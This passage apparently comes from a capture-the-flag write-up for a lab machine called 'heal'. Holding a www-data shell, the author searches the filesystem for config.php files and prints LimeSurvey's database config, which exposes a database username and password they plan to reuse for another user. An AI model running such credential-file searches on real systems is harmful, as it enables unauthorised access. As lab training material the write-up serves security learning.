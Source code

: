 We got another user with a shell `ron`, let's try searching around for his credentials:

```
www-data@heal:~/limesurvey$ find / -name config.php 2>/dev/null
/var/www/limesurvey/vendor/kcfinder/conf/config.php
/var/www/limesurvey/vendor/yiisoft/yii/framework/messages/config.php
/var/www/limesurvey/vendor/yiisoft/yii/requirements/messages/config.php
/var/www/limesurvey/application/config/config.php
```

Let's check the last one:

```
www-data@heal:~/limesurvey/application/config$ cat config.php
<?php if (!defined('BASEPATH')) exit('No direct script access allowed');
/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
|    'connectionString' Hostname, database, port and database type for
|     the connection. Driver example: mysql. Currently supported:
|                 mysql, pgsql, mssql, sqlite, oci
|    'username' The username used to connect to the database
|    'password' The password used to connect to the database
|    'tablePrefix' You can add an optional prefix, which will be added
|                 to the table name when using the Active Record class
|
*/
return array(
	'components' => array(
		'db' => array(
			'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
			'emulatePrepare' => true,
			'username' => 'db_user',
			'password' => 'AdmiDi0_pA$$w0rd',
			'charset' => 'utf8',
			'tablePrefix' => 'lime_',
		),
		
		 'session' => array (
			'sessionName'=>'LS-ZNIDJBOXUNKXWTIP',
			// Uncomment the following lines if you need table-based sessions.
			// Note: Table-based sessions are currently not supported on MSSQL server.
			// 'class' => 'application.core.web.DbHttpSession',
			// 'connectionID' => 'db',
			// 'sessionTableName' => '{{sessions}}',
		 ),
		
		'urlManager' => array(
			'urlFormat' => 'path',
			'rules' => array(
				// You can add your own rules here
			),
			'showScriptName' => true,
		),
```